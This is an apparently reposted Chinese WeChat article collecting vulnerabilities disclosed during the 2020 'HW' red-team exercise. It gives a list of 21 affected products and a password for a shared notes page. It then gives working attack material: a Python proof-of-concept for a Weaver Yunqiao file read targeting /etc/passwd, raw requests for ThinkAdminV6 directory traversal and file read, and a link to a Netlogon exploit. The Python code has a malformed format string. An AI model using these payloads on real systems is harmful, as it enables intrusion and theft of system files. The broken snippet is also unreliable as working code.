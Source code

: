 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/q5ZyUkhAYOjXYOVOmky2Qg)

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLNz1K93XgicIYOpflyHI2aubibkwS5dq0AGvH7QArh2RvaeqiagI8FEpibibg1rDfCh6I3Tzb8SO4jF2Q/640?wx_fmt=png)

hw 期间每天漏洞都在更新，目前有以下这些：  

```
1.用友GRP-u8 SQL注入
2.天融信TopApp-LB sql注入
3.深信服EDR RCE漏洞
4.绿盟UTS绕过登录
5.WPS命令执行漏洞（无）
6.齐治堡垒机 rce
7.联软准入漏洞（无）
8.泛微云桥任意文件读取
9.深信服 SSL VPN 远程代码执行漏洞（暂无）
10.Apache DolphinScheduler 远程代码执行漏洞
11.Exchange Server 远程代码执行漏洞
12.Apache DolphinScheduler 权限覆盖漏洞\[CVE-2020-13922\]
13.Netlogon 特权提升漏洞（CVE-2020-1472）
14.coremail 0day - may be rce（无）
15.activemq远程代码执行0day
16.天融信数据防泄漏系统越权修改管理员密码
17.Wordpress File-manager任意文件上传
18.CVE-2020-7293  McAfee Web 多个高危漏洞
19.ThinkAdminV6 任意文件操作
20.VMware Fusion 权限提升漏洞（CVE-2020-3980）
21.CNVD-2020-27769-拓尔思TRSWAS5.0文件读取漏洞

```

发上语雀地址，每天更新可以同步更新到分享中。

https://www.yuque.com/docs/share/ad8192ca-39ec-4950-86e9-01dfa989bf6f?#（密码：gf34） 《HW2020 - 0day 总结》

2020 年 9 月 17 日更新内容：

**8\. 泛微云桥任意文件读取**

更新新的利用方式，可以目录遍历，然后再读取。  

```
\# 检测代码，关键片段
def poc(u,\*\*kw):
  if kw:
    file = kw\['file'\]
  else:
    file = '/etc/passwd'
  print("\[\*\] Checking %s"%(u))
  uri = "/wxjsapi/saveYZJFile?file%(file)
  url = u + uri
  try:
    res = requests.get(url,verify=False,timeout=timeout)
  except Exception as e:
    print("\[-\] Error %s , %s"%(u,e))
    return 
  try:
    data = json.loads(res.content)
    res = requests.get(u+"/file/fileNoLogin/%s"%(data\['id'\]),verify=False,timeout=timeout)
    print("\[\*\] %s is vulnerabile!" %(u))
    print(res.text)
    log("\[\*\] %s is vulnerabile!" %(u))
    log(res.text)
  except Exception as e:
    print("\[-\] %s not vulnerabile!"%(u))
    #print("\[-\] %s"%(e))

```

**![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLNz1K93XgicIYOpflyHI2aujlW63GTfCb4puibflN2xFUsDLuk1icBzgvn5BMCXycqOdNbpyRfnCqKA/640?wx_fmt=png)**

**13.Netlogon 特权提升漏洞（CVE-2020-1472）**

添加漏洞 exp：https://github.com/dirkjanm/CVE-2020-1472  

**19.ThinkAdminV6 任意文件操作**

（消息来源：渗了个透 公众号）

Update.php 三个函数未校验访问权限 1、目录遍历注意 POST 数据包 rules 参数值需要 URL 编码

```
POST /admin.html?s=admin/api.Update/node
rules=%5B%22.%2F%22%5D

```

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLNz1K93XgicIYOpflyHI2aujXbvdSfhVhlgSjbWvvsRyV0Feu5WJ30cW35NTzdVDGGtNaa1mDcfKw/640?wx_fmt=png)  

2、文件读取, 后面那一串是 UTF8 字符串加密后的结果。计算方式在 Update.php 中的加密函数。

```
/admin.html?s=admin/api.Update/get/encode/
34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34

```

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLNz1K93XgicIYOpflyHI2auz4wlGYGmXobkFhSiaPoYLGfZNt5y0rwvgnSaU0MYulmKNN7Xiack7phw/640?wx_fmt=png)  

**新增预警**

20.VMware Fusion 权限提升漏洞（CVE-2020-3980）

21.CNVD-2020-27769 - 拓尔思 TRSWAS5.0 文件读取漏洞

**来自阿里云规则中心的预警（可能是历史漏洞）**

1.phpcms V9 远程代码执行

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLNz1K93XgicIYOpflyHI2auxoDkQzrZsahwnbXicnic7Vu4e7IIZykqwC5ISf3B35hfGndlnc7iayW4w/640?wx_fmt=png)

另外，众人拾柴火焰高，如果总结中，有还未收录或者需要补充的地方，可给微信公众号发送消息及时补充。